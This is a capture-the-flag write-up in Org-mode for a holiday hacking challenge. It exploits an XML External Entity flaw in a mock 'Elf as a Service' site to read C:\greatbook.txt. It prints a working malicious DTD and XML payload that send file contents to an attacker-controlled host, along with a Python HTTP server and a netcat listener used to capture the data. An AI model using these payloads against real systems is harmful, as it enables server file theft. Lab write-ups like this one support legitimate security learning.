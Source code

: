 * Question
   :PROPERTIES:
   :CUSTOM_ID: q6_question
   :END:

The North Pole engineering team has introduced an Elf as a Service
(EaaS) platform to optimize resource allocation for mission-critical
Christmas engineering projects at
http://eaas.northpolechristmastown.com. Visit the system and retrieve
instructions for accessing The Great Book page from C:\greatbook.txt.
Then retrieve The Great Book PDF file by following those directions.
What is the title of The Great Book page?

/For hints on this challenge, please consult with Sugarplum Mary in the North Pole and Beyond./

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q6_background-information
   :END:

 #+begin_hint
 The Elf As A Service (EAAS) site is a new service we're experimenting with in the North Pole. Previously, if you needed a special engineer for toy production, you would have to write a memo and distribute it to several people for approval. All of that process is automated now, allowing production teams to request assistance through the EAAS site.
 #+end_hint

 #+begin_hint
 The EAAS site uses XML data to manage requests from other teams. There is a sample request layout available that you can download. Teams just customize the XML and submit!
 #+end_hint

 #+begin_hint
 I think some of the elves got a little lazy toward the go-live date for EAAS. The sample XML data doesn't even include a DTD reference.
 #+end_hint

 #+begin_hint
 XML processing can be complex. I saw an interesting article recently on the [[https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities][dangers of external XML entities]].
 #+end_hint

This post is called out in the hints:

 Exploiting XXE Vulnerabilities in IIS.NET
 https://pen-testing.sans.org/blog/2017/12/08/entity-inception-exploiting-iis-net-with-xxe-vulnerabilities

To pull off this attack, we'll need to host a file somewhere that the EaaS system can reach. We can either host it on l2s, in which case we'll use the following blog post for creating a file on that system, which is locked down with =rbash=:

 A Spot of Tee
 https://pen-testing.sans.org/blog/2017/12/06/a-spot-of-tee

Alternatively, we could spin up an AWS VM using the instructions in:

 Putting My Zero Cents In: Using the Free Tier on Amazon Web Services (EC2)
 https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2

The hints are all pretty strongly pointing us towards an {{{abbr(XML External Entity, XXE)}}} vulnerability.

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q6_goal
   :END:

We want to access C:\greatbook.txt, and then follow those instructions to retrieve a page of the Great Book.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q6_approach
   :END:

We'll start with just pulling up the site in a browser:

#+CAPTION: EaaS Home
#+attr_html: :width 350px
[[./images/eaas_home.png]]

Poking around the site a bit, we see that it provides four functions:

1. We can view our current Elf order at http://eaas.northpolechristmastown.com/Home/DisplayXML,
2. On that same page, we can make a change to our order by uploading a file,
3. We can reset the XML file here: http://eaas.northpolechristmastown.com/Home/CreateElfs,
4. We can download the XML file here: http://eaas.northpolechristmastown.com/XMLFile/Elfdata.xml

All this XML talk lines up pretty well with the blog post and the hints. Let's see if the EaaS site is vulnerable to {{{abbr(XML External Entity, XXE)}}}.

Following along with the blog post, we'll create a malicious
{{{abbr(Data Type Definition, DTD)}}} file, borrowing liberally from the SANS post:

#+CAPTION: The DTD File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

If we can get the XML parser to use this {{{abbr(Data Type Definition, DTD)}}} 
file, it will read our target text file, then send it to a system that
we control. This file doesn't help the parser know how to parse our
XML, but we don't really care if it gets parsed correctly or not.

In order to have the XML parser load this {{{abbr(Data Type Definition, DTD)}}} file, we'll use the XML example in the blog post:

#+begin_note
This example in the blog post had a typo, where the last character was a =<= instead of a =>=.
#+end_note

#+CAPTION: The XML File
#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

This will load our evil.dtd file, then instantiate the necessary
entities. To finish off the attack, we'll need two HTTP services
running. The first will need to serve the evil.dtd file. Python's
=SimpleHTTPServer= is the easiest way to do this, and in fact, that's
provided on l2s. We'll create our file, with tee, then start a
server. Ports 8080 and 4444 are very contentious on l2s, so we'll use
non-standard ones instead:

#+BEGIN_SRC
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ cat | tee evil.dtd
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
<!ENTITY % inception "<!ENTITY % sendit SYSTEM 'http://1.2.3.4:8272/?%stolendata;'>">
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.EtweHkIXQZGuoo51RBy2FSyA$ python -m SimpleHTTPServer 8271
Serving HTTP on 0.0.0.0 port 8271 ...
#+END_SRC

In another terminal, we'll start up a =netcat= listener, to capture the response:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

With these services in place, we're ready to upload our malicious XML file. Using a web browser, we'll upload our XML file, and then see what happens.

#+BEGIN_SRC 
Serving HTTP on 0.0.0.0 port 8271 ...
10.142.0.13 - - [10/Jan/2018 22:26:43] "GET /evil.dtd HTTP/1.1" 200 -
#+END_SRC

Great, our DTD file was loaded! And checking our =netcat= instance:

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.sHkbOWKtpdnH8SGpCM2VAMgL$ nc -l -p 8272
#+END_SRC

...nothing. That's disappointing. We've already noticed one typo in
the blog. Could it be possible that there was another error? Taking a
close look at the image on the page, we notice that part of the DTD
file is escaped differently from how the example shows up on the
webpage:

#+CAPTION: DTD File
#+attr_html: :width 350px
[[./images/eaas_dtd.png]]

We'll update our DTD file, so that the percent sign before ~sendit~ is escaped:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

We'll upload our file one more time, and...

#+BEGIN_SRC 
alabaster_snowball@hhc17-apache-struts2:/tmp/asnow.yNLdj0xcg7AZi5v1gYns2lFO$ nc -l -p 8272
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
Host: 10.142.0.11:8272
Connection: Keep-Alive
#+END_SRC

Success! In the =GET= request, the text after =?= is the contents of C:\greatbook.txt. If we pull up that URL, we get GreatBookPage6.pdf.

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q6_solution
   :END:

We upload this XML file:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://10.142.0.11:8271/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
>
#+END_SRC

And this is our DTD:

#+BEGIN_SRC xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://10.142.0.11:8272/?%stolendata;'>">
#+END_SRC

When we upload our XML file, we receive the contents of the target file, and can then download the PDF.

* Common Pitfalls
   :PROPERTIES:
   :CUSTOM_ID: q6_common-pitfalls
   :END:

This followed closely to the SANS blog post, but there was a typo and an HTML rendering issue with some of the provided code that caused some headaches.
